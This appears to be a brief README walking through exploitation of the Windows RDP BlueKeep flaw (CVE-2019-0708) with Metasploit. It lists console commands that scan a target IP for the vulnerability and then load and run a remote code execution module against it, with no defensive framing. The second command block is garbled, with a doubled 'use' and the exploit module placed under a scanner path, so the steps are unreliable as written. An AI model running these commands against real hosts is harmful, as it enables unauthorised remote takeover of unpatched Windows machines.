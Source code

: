 # Exploiting Windows CVE-2019-0708 RDP(BlueKeep)

__scanning for vulnerable__
```
msfconsole
search Bluekeep
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
set rhosts <target ip>
exploit
```

__Exploiting the RDP bluekeep__
```
use use auxiliary/scanner/rdp/cve_2019_0708_bluekeep_rce
set rhosts <target ip>
show target 
set target <target number>
exploit 
```

